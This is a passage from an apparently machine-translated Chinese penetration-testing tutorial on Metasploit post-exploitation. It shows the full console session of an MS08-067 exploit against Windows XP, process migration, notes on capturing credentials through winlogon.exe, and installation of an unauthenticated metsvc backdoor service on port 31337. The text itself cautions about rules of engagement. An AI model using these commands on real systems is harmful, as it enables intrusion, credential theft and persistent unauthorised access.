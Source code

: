如你所见，我们已经放弃了目标的网络冲浪活动。同样，我们也可以通过迁移`winlogon.exe`进程（`648`来捕获所有登录系统的用户的凭证。

您已经利用并获得了对目标系统的访问权，但现在希望保持此访问权的永久性，即使在稍后阶段将修补被利用的服务或应用程序。这种活动通常称为后门服务。请注意，MeterMeter 外壳提供的后门服务在访问目标系统上的特定网络端口之前不需要身份验证。这可能会让一些不速之客进入您的目标，并造成重大风险。作为渗透测试参与规则的一部分，通常不允许进行此类活动。因此，我们强烈建议您将后门服务远离官方 pentest 环境。您还应确保在范围界定和接洽规则阶段以书面形式明确允许：

```
 msf exploit(ms08_067_netapi) > exploit
    [*] Started reverse handler on 192.168.0.3:4444
    [*] Automatically detecting the target...
    [*] Fingerprint: Windows XP Service Pack 2 - lang:English
    [*] Selected Target: Windows XP SP2 English (NX)
    [*] Attempting to trigger the vulnerability...
    [*] Sending stage (749056 bytes) to 192.168.0.7
    [*] Meterpreter session 1 opened (192.168.0.3:4444 ->
192.168.0.7:1032) at Tue Nov 16 19:21:39 +0000 2010
    meterpreter>ps
    ...
     292   alg.exe           x86   0        NT AUTHORITYLOCAL SERVICE    
C:WINDOWSSystem32alg.exe
    1840  csrss.exe         x86   2        NT AUTHORITYSYSTEM           
??C:WINDOWSsystem32csrss.exe
     528   winlogon.exe      x86   2        NT AUTHORITYSYSTEM           
??C:WINDOWSsystem32winlogon.exe
     240   rdpclip.exe       x86   0        CUSTDESKMomin Desktop        
C:WINDOWSsystem32rdpclip.exe
    1060  userinit.exe      x86   0        CUSTDESKMomin Desktop        
C:WINDOWSsystem32userinit.exe
    1544  explorer.exe      x86   0        CUSTDESKMomin Desktop        
C:WINDOWSExplorer.EXE
    ...
    meterpreter> migrate 1544
    [*] Migrating to 1544...
    [*] Migration completed successfully.
    meterpreter> run metsvc -h
    ...
    meterpreter> run metsvc
    [*] Creating a meterpreter service on port 31337
    [*] Creating a temporary installation directory 
C:DOCUME~1MOMIND~1LOCALS~1TempoNyLOPeS...
    [*]  >> Uploading metsrv.dll...
    [*]  >> Uploading metsvc-server.exe...
    [*]  >> Uploading metsvc.exe...
    [*] Starting the service...
             * Installing service metsvc
     * Starting service
    Service metsvc successfully installed. 
```

因此，我们终于在我们的目标上启动了后门服务。我们将关闭当前的 MeterMeter 会话，并使用具有`windows/metsvc_bind_tcp`有效负载的 multi/handler 与我们的后门服务进行交互，只要我们愿意：

```
 meterpreter> exit
```
